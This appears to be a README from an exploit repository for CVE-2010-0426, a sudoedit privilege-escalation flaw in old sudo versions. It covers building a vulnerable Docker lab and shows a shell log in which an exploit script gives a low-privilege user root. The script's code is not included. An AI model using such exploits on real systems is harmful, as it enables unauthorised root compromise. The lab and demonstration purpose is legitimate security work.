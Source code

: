 # Sudo 1.6.x<=1.6.9p21 and 1.7.x<=1.7.2p4 Local Privilege Escalation

Sudo (su "do") allows a system administrator to give certain users (or groups of users) the ability to run some (or all) commands as root while logging all commands and arguments.

## Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker build -t vul-linux .
    docker run --rm -it vul-linux

And it will spawn a interactive shell with low user privileges.

## Vulnerable code

The bug was found in sudoedit, which does not handle the 'sudoedit' command correctly, this allows a malicious user to replace the real sudoedit command with an arbitrary command.

Local attackers could exploit this issue to run arbitrary commands as the 'root' user. Successful exploits can completely compromise an affected computer.

## Exploit

To exploit this target just run:

    ./exploit.sh

If you are using this vulnerable image, you can just run:

	user@023b47ff82ca:~$ sudo -V
	Sudo version 1.7.2
	user@023b47ff82ca:~$ sudo -l
	User user may run the following commands on this host:
		(root) NOPASSWD: sudoedit /etc/fstab
	user@023b47ff82ca:~$ ./exploit.sh /etc/fstab
	[+] CVE-2010-0426 exploit by t0kx
	[+] Prepared sudoedit...
	[+] Run sudoedit
	root@023b47ff82ca:/tmp# id
	uid=0(root) gid=0(root) groups=0(root)
	root@023b47ff82ca:/tmp#


